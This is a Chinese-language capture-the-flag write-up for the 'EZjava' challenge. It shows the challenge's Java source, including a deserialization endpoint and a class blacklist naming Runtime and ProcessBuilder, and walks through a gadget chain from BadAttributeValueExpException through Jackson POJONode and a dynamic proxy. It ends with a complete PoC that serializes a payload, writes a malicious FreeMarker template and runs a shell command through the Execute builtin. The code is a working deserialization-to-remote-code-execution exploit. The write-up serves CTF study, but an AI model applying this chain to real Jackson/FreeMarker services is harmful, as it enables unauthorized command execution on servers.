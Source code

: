 # tmp

### EZjava

本地没有环境,所以就解析一下大佬的`PoC`​

先放几段比较关键的源码

​`ycbjava.Bean.HtmlBean`​

```java
public class HtmlBean implements Serializable {
  public Map HtmlMap;
  
  public String filename;
  
  public String content;
  
  public HtmlBean(HtmlMap htmlMap, String filename, String content) {
    this.HtmlMap = (Map)htmlMap;
    this.filename = filename;
    this.content = content;
  }
  
  public HtmlBean() {}
  
  public Map getHtmlMap() {
    this.HtmlMap.put(this.filename, this.content);
    return this.HtmlMap;
  }
/..../
}
```

​`ycbjava.Contorller.IndexController`​

```java
@Controller
public class IndexController {
  @RequestMapping({"/"})
  @ResponseBody
  public String index() {
    return "Welcome to YCB";
  }
  
  @RequestMapping({"/templating"})
  public String templating(@RequestParam String name, Model model) {
    model.addAttribute("name", name);
    return "index";
  }
  
  @RequestMapping({"/getflag"})
  @ResponseBody
  public String getflag(@RequestParam String data) throws IOException, ClassNotFoundException {
    byte[] decode = Base64.getDecoder().decode(data);
    ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
    byteArrayOutputStream.write(decode);
    NewObjectInputStream objectInputStream = new NewObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
    objectInputStream.readObject();
    return "Success";
  }
}
```

​`ycbjava.Utils`​

```java
public class HtmlInvocationHandler implements InvocationHandler, Serializable {
  public Map obj;
  
  public HtmlInvocationHandler() {}
  
  public HtmlInvocationHandler(Map obj) {
    this.obj = obj;
  }
  
  public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
    Object result = this.obj.get(method.getName());
    return result;
  }
}
```

```java
 public class HtmlMap implements Map, Serializable { 
	public Object get(Object key) {
    Object obj;
    try {
      obj = Boolean.valueOf(HtmlUploadUtil.uploadfile(this.filename, this.content));
    } catch (Exception e) {
      throw new RuntimeException(e);
    } 
    return obj;
  }
}
```

```java
public class HtmlUploadUtil {
  public static boolean uploadfile(String filename, String content) {
    if (filename != null && !filename.endsWith(".ftl"))
      return false; 
    String realPath = "/app/templates/" + filename;
    if (realPath.contains("../") || realPath.contains("..\\"))
      return false; 
    try {
      BufferedWriter writer = new BufferedWriter(new FileWriter(realPath));
      writer.write(content);
      writer.close();
      return true;
    } catch (IOException e) {
      System.err.println("Error uploading file: " + e.getMessage());
      return false;
    } 
  }
}
```

```java
public class NewObjectInputStream extends ObjectInputStream {
  private static final Set<String> BLACKLISTED_CLASSES = new HashSet<>();
  
  static {
    BLACKLISTED_CLASSES.add("java.lang.Runtime");
    BLACKLISTED_CLASSES.add("java.lang.ProcessBuilder");
    BLACKLISTED_CLASSES.add("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
    BLACKLISTED_CLASSES.add("java.security.SignedObject");
    BLACKLISTED_CLASSES.add("com.sun.jndi.ldap.LdapAttribute");
  }
  
  public NewObjectInputStream(InputStream inputStream) throws IOException {
    super(inputStream);
  }
  
  protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
    if (BLACKLISTED_CLASSES.contains(desc.getName()))
      throw new SecurityException("Class not allowed: " + desc.getName()); 
    return super.resolveClass(desc);
  }
}
```

首先我们来看到`IndexController`​,有三条路由

​`/templating`​很明显就是模板渲染,可以传递一个`name`​参数

​`/getflag`​也很明显允许我们传递一段`base64`​编码的序列化数据,并且将它反序列化

因为这里的黑名单过滤的其实还算比较严格的,所以我们先按照题目预期的思路进行解决

我们可以看到`ycbjava.Utils.HtmlUploadUtil`​

这里定义了一个`uploadfile()`​方法,接受`filename`​和`content`​两个`String`​参数

只能传入`filename`​后缀为`ftl`​的文件,指定到`/app/templates/`​目录下

但是我们正常情况下是调用不了这个方法,只能够通过给的`/getflag`​路由,通过反序列化传入一个恶意的`ftl`​文件,再通过`/templating`​路由来调用

那我们就需要找到什么地方调用了这个`uploadfile()`​方法,我们可以发现在`HtmlMap`​中有一个`get()`​方法,这个`get()`​方法调用了`uploadfile()`​方法

继续往上走,看看有哪个地方调用了`get()`​方法,直接`find usage`​有则多地方,所以就直接在`Utils`​目录下找,可以发现`HtmlInvocationHandler`​中的`invoke()`​方法调用了`get()`​

而`HtmlInvocationHandler`​是一个动态代理类,动态代理类的一个特性就是动态代理类会自动执行动态代理类中的`invoke()`​方法

所以我们需要调用一处`HtmlInvocationHandler`​代理的类的任意方法来让他调用`invoke()`​方法,也就是`HtmlBean`​中的`getHtmlMap()`​方法,因为这个方法调用了`HtmlMap.put()`​

那么我们如何调用到这个方法呢,就要用到`jackson链`​了

需要用到`POJONode`​的`toString()`​方法来出发任意类的`getter()`​方法

至于`POJOnode`​类如何通过`toString()`​方法调用任意类的`getter()`​方法参考这篇文章[`https://xz.aliyun.com/t/12509`](https://xz.aliyun.com/t/12509)​

简述就是

```java
通过父类BaseJsonNode的toString()方法
toString -> InternalNodeMapper#nodeToString -> ObjectWriter.writeValueAsString
然后通过ObjectWriter.writeValueAsString去调用任意类的getter()
```

所以我们只需要把`Ezjava`​的后半段和`jackson链`​的前半段结合就好了

```java
 
import com.fasterxml.jackson.databind.node.POJONode;
import com.fasterxml.jackson.databind.node.BaseJsonNode;
import com.ycbjava.Bean.HtmlBean;
import com.ycbjava.Utils.HtmlInvocationHandler;
import com.ycbjava.Utils.HtmlMap;
import javassist.*;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Map;
 
public class Poc {
 
    public static void main(String[] args) throws Exception {
        HtmlMap htmlMap = new HtmlMap();
        String filname = "index.ftl";
        String content = "<#assign ac=springMacroRequestContext.webApplicationContext>\n" +
                "  <#assign fc=ac.getBean('freeMarkerConfiguration')>\n" +
                "    <#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>\n" +
                "      <#assign VOID=fc.setNewBuiltinClassResolver(dcr)>${\"freemarker.template.utility.Execute\"?new()(\"cat /flag\")}";
        setFieldValue(htmlMap, "filename", filname);
        setFieldValue(htmlMap, "content", content);
        HtmlInvocationHandler htmlInvocationHandler = new HtmlInvocationHandler(htmlMap);
        Map map = (Map) Proxy.newProxyInstance(
                HtmlMap.class.getClassLoader(),
                new Class[] {Map.class},
                htmlInvocationHandler);
        HtmlBean htmlBean = new HtmlBean();
        setFieldValue(htmlBean, "HtmlMap", map);
 
        POJONode jsonNodes = new POJONode(htmlBean);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(exp);
        objectOutputStream.close();
        String res = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(res);
 
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
}
```

参考链接:

[https://jbnrz.com.cn/index.php/2023/09/03/ycb2023/](https://jbnrz.com.cn/index.php/2023/09/03/ycb2023/)

[https://xz.aliyun.com/t/12509](https://xz.aliyun.com/t/12509)

‍
